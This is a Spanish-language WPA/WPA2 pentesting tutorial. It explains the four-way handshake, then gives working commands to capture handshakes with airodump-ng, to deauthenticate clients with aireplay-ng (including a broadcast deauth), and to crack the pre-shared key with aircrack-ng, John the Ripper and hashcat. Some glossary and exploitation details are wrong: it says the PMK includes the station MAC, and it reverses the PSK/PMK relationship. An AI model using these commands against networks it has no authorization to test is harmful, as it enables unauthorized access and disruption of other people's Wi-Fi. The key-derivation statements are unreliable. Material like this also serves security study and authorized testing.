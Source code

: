 # WPA/WPA2

## Cómo funciona

WPA (Wi-Fi Protected Access) y WPA2 son protocolos de seguridad inalámbrica que proporcionan autenticación y cifrado seguros para las redes Wi-Fi. Estos protocolos se diseñaron para mejorar las debilidades del protocolo WEP . En estos protocolos, para que la información viaje cifrada entre los dispositivos que están permitidos en la red, se utiliza el protocolo del Four Way Handshake en el que a través de 4 mensajes que se intercambian entre un cliente y un punto de acceso para establecer una clave de cifrado compartida. Consta de 4 pasos, comenzando cuando un cliente envia una solicitud para autenticarse al AP:

1. El AP envía un un **ANonce** , permitiendole ahora al cliente el crear la **PTK**.
2. Ahora el cliente envia un **SNonce** junto con el **MIC**, estos elementos le permiten al AP crear la PTK.
3. El AP le envía la **GTK** al cliente y este la almacena.
4. El cliente le envía un mensaje al AP para indicarle que todo está correcto.



<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

**Glosario:**

* **PSK:** Pre Shared Key, es la contraseña para acceder al Access Point.
* **PMK:** siglas de Pair Master Key, es una clave compuesta tanto por la **PSK** (pre shared key) y el **SSID** (utilizado como salt para darle aleatoriedad a la clave), y la dirección **mac** de la estación.
* **ANonce:** es un valor aleatorio, por lo tanto único, generado por el **AP** al momento de querer autenticarse un cliente, ya que con este valor se podrá generar la PTK.
* **PTK:** es una clave de cifrado temporal utilizada en el proceso de autenticación de un cliente con un access point. Esta compuesta por: **PMK + ANonce + SNonce + MAC-AP + MAC-STA.**
* **MIC:** sirve para garantizar que la integridad del mensaje no fue alterada. Ya que el cliente y el ap pueden calcularlo, asi verifican la integridad del mensaje.
* **GTK:** Group Temporal Key, es una clave compartida entre todos los miembros de la red utilizada para desencriptar todo el tráfico de broadcast (hacia toda la red) o multicast (un grupo de direcciones IP). Esta es actualizada regularmente en la red.



## Explotación

Para poder ganar acceso al access point, vamos a necesitar obtener la PSK. Por lo que si lograsemos capturar todo el proceso del Four Way Handshake seríamos capaces de intentar por fuerza bruta obtener la contraseña. Esto es así por que para poder obtener la clave de la red, esta está contenida en el PMK, que a su vez este está contenido en la PSK, siendo este el único valor que nos falta de la ecuación para obtener la clave.

Para obtener el handshake o bien lo podemos capturar de forma pasiva esperando a que un cliente se conecte a la red o bien deautenticando uno o todos los clientes de la red por una cantidad que determinemos de tiempo, para así forzar a capturar el handshake cuando se intenten reconectar.

### Capturar Handshake

```bash
airodump-ng --bssid <BSSID> --channel <n> --write <outfile> <name-monitor-iface>
airodump-ng --bssid 5C:E2:8C:55:88:B8 --channel 1 --write 4_way_handshake wlxd0374538a8d2
```

### De-Autenticar Cliente/s

```bash
# Specific Client
aireplay-ng --deauth <n-packets> -a <BSSID> -c <client mac> <name-monitor-iface>
aireplay-ng --deauth 0 -a 5C:A0:8C:75:91:E8 -c C0:37:A5:CE:D1:4A wlxd0374538a8d2

# Broadcast
aireplay-ng --deauth <n-packets> -a <BSSID> <name-monitor-iface>
aireplay-ng --deauth 0 -a 5C:A0:8C:75:91:E8 wlxd0374538a8d2
```

### Crackeo de la Pre Shared Key

```bash
### hashcat utils ###
git clone https://github.com/hashcat/hashcat-utils.git
cd hashcat-utils/src/
gcc cap2hccapx.c -o cap2hccapx.bin
./cap2hccapx.bin <.capfile> <output>.hccapx

### Con CPU ###
# Aircrack-ng
aircrack-ng <.cap file> -w <wordlist>

# John The Ripper
./cap2hccapx.bin <.capfile> <output>.hccapx
hccap2john <hccapx file> > hash
john hash -w <wordlist>

### Con GPU ###
# Hashcat
./cap2hccapx.bin <.capfile> <output>.hccapx
hashcat -m 2500 -a 0 <hccapx file> <wordlist>         # Brute Force with wordlis
hashcat -m 2500 -a 3 <hccapx file> ?d?d?d?d?d?d?d?d   # Brute force digits
```
